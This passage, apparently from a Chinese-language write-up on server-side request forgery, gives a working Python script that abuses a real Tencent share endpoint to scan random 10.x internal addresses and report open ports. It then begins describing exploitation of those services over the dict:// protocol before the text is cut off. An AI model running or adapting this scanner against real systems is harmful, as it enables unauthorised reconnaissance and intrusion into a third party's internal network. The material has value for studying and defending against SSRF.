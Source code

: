随机针对内网10.网段进行探测
  

  
``` python
  
#!/usr/bin/env python
  
# encoding: utf-8
  
# email: ringzero@0x557.org
  

  
import requests
  
import time
  
import random
  

  
port = '80'
  

  
# random fuzz local ip
  
while True:
  
    ip = '10.{0}.{1}.{2}'.format(random.randint(1, 254),random.randint(1, 254),random.randint(1, 254))
  
    payload = 'http://{ip}:80/'.format(ip=ip)
  
    url = 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url={payload}'.format(
  
        payload=payload)
  
    # len({"ret":1}) == 9
  
    if len(requests.get(url).content) != 9:
  
        print ip, port, 'OPEN', requests.get(url).content
  
```
  

  
### 2.2 对已开放的服务进行漏洞利用
  

  
这里描述的利用内容，使用的dict协议，dict提供了一个非常棒的功能 `dict://serverip:port/name:data`，
  
